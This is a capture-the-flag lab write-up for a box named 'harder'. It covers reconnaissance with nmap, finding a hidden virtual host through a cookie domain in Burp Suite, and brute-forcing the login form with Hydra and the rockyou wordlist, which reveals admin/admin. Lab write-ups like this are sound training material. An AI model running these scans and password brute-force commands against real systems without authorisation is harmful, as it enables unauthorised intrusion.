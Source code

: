 # harder

## Enumeration

Start with an `nmap` scan per usual to see which ports are open, and what services run on the respective ports. `sudo nmap -Pn -v -A 10.10.222.15`

![nmap](images/nmap.png)

The website at port `80` seems empty, so we use `gobuster` to find hidden directories. This also seems to fail, because all requests are redirected to a standard error site.

By using Burp Suite we observe a _domain_ tag in the response from the website.

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 20 Sep 2020 18:13:29 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.3.19
Set-Cookie: TestCookie=just+a+test+cookie; expires=Sun, 20-Sep-2020 19:13:29 GMT; Max-Age=3600; path=/; domain=pwd.harder.local;secure
```

This response sets a cookie that is associated with the domain `pwd.harder.local`. When sending a request through burp to _pwd.harder.local_ we see that the site now has a lot more content.

![new request](images/alterRequest.png)

We thus need to associate the IP to the webserver with _pwd.harder.local_. `sudo echo "<IP_to_server> pwd.harder.local" >> /etc/hosts` This means that going to the website `pwd.harder.local` will take you to the associated IP.

Going to `pwd.harder.local` prompts us with a login. 

![login](images/login.png)

Using Hydra we try to crack the password `hydra pwd.harder.local -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/index.php:action=set_login&user=^USER^&pass=^PASS^:Invalid"`, and end up getting `[80][http-post-form] host: pwd.harder.local   login: admin   password: admin`.

username: admin

password: admin
